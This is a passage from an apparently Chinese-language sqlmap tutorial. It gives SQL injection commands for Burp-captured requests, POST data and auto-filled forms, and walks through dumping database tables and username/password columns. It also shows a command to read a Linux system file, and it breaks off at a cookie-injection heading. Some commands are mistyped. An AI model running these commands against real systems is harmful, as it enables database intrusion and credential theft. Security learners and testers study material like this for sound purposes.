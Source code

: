 ```
sqlmap.py -r burpsuite抓包.txt
```

（2）指定表单注入

```
sqlmap.py -u URL –data“username=a&password=a”
```

###### 9.sqlmap自动填写表单注入

自动填写表单：

```
sqlmap.py -u URL –forms

sqlmap.py -u URL –forms –dbs

sqlmap.py -u URL –forms –current-db

sqlmap.py -u URL –forms -D 数据库名称–tables

sqlmap.py -u URL –forms -D 数据库名称 -T 表名 –columns

sqlmap.py -u URL –forms -D 数据库名称 -T 表名 -Cusername，password –dump
```

###### 10.读取linux下文件

```
sqlmap.py-u “url” –file /etc/password
```

###### 11.延时注入

```
sqlmap.py -u URL –technique -T –current-user
```

###### 12.sqlmap 结合burpsuite进行post注入

结合burpsuite来使用sqlmap：

（1）浏览器打开目标地址

（2）配置burp代理(127.0.0.1:8080)以拦截请求

（3）点击登录表单的submit按钮

（4）Burp会拦截到了我们的登录POST请求

（5）把这个post请求复制为txt, 我这命名为post.txt 然后把它放至sqlmap目录下

（6）运行sqlmap并使用如下命令：

```
python sqlmap.py -r post.txt -p tfUPass
```

###### 13.sqlmap cookies注入
